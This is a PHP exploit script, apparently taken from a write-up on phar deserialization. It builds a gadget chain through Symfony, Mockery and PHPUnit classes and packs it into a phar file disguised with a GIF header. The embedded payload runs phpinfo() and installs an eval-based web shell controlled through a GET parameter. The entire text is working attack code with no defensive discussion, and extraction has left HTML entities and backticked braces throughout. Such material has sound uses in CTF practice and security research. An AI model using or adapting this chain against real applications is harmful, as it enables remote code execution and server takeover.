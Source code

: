 ```
&lt;?php

namespace Symfony\Component\Routing\Loader\Configurator `{`
    class ImportConfigurator `{`
        private $parent;
        private $test;
        public function __construct($parent) `{`
            $this-&gt;parent = $parent;
            $this-&gt;test = 'undefined';
        `}`
    `}`
`}`

namespace Mockery `{`
    class HigherOrderMessage `{`
        private $mock;
        private $method;
        public function __construct($mock) `{`
            $this-&gt;mock = $mock;
            $this-&gt;method = 'generate';  // 调用 mock 类的 generate 方法
        `}`
    `}`
`}`

namespace PHPUnit\Framework\MockObject `{`
    class MockTrait `{`
        private $classCode;
        private $mockName;
        public function __construct($classCode) `{`
            $this-&gt;classCode = $classCode;
            $this-&gt;mockName = 'undefined';  // 控制 $mockname 为不存在的类
        `}`
    `}`
`}`

namespace `{`

    use Mockery\HigherOrderMessage;
    use PHPUnit\Framework\MockObject\MockTrait;
    use Symfony\Component\Routing\Loader\Configurator\ImportConfigurator;

    $c = new MockTrait("phpinfo(); echo 'Ricky in serialize!'; eval(filter_input(INPUT_GET,\"ricky\"));");
    $b = new HigherOrderMessage($c);
    $a = new ImportConfigurator($b);

    $phar = new Phar("ricky1.phar"); //生成phar文件
    $phar-&gt;startBuffering();
    $phar-&gt;setStub('GIF89a'.'&lt;?php __HALT_COMPILER(); ? &gt;');
    $phar-&gt;setMetadata($a); //触发头是C1e4r类
    $phar-&gt;addFromString("test.txt", "test"); //生成签名
    $phar-&gt;stopBuffering();
`}`
```
